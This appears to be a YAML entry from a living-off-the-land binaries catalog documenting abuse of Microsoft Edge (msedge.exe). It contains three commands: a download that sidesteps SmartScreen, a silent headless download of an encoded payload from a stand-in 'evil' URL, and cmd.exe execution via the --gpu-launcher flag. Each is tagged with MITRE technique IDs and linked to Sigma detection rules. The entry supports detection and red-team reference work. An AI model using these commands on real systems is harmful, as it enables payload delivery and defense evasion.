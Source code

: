 ```yaml
---
Name: Msedge.exe
Description: Microsoft Edge browser
Author: mr.d0x
Created: 2022-01-20
Commands:
  - Command: msedge.exe https://example.com/file.exe.txt
    Description: Edge will launch and download the file. A harmless file extension (e.g. .txt, .zip) should be appended to avoid SmartScreen.
    Usecase: Download file from the internet
    Category: Download
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows 10, Windows 11
  - Command: msedge.exe --headless --enable-logging --disable-gpu --dump-dom "http://example.com/evil.b64.html" > out.b64
    Description: Edge will silently download the file. File extension should be .html and binaries should be encoded.
    Usecase: Download file from the internet
    Category: Download
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows 10, Windows 11
  - Command: msedge.exe --disable-gpu-sandbox --gpu-launcher="C:\Windows\system32\cmd.exe /c ping google.com &&"
    Description: Edge spawns cmd.exe as a child process of msedge.exe and executes the ping command
    Usecase: Executes a process under a trusted Microsoft signed binary
    Category: Execute
    Privileges: User
    MitreID: T1218.015
    OperatingSystem: Windows 10, Windows 11
    Tags:
      - Execute: CMD
      - Input: Custom Format
Full_Path:
  - Path: c:\Program Files\Microsoft\Edge\Application\msedge.exe
  - Path: c:\Program Files (x86)\Microsoft\Edge\Application\msedge.exe
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/b02e3b698afbaae143ac4fb36236eb0b41122ed7/rules/windows/process_creation/proc_creation_win_browsers_msedge_arbitrary_download.yml
  - Sigma: https://github.com/SigmaHQ/sigma/blob/b02e3b698afbaae143ac4fb36236eb0b41122ed7/rules/windows/process_creation/proc_creation_win_browsers_chromium_headless_file_download.yml
Resources:
  - Link: https://twitter.com/mrd0x/status/1478116126005641220
  - Link: https://twitter.com/mrd0x/status/1478234484881436672
Acknowledgement:
  - Person: mr.d0x
    Handle: '@mrd0x'
---
```


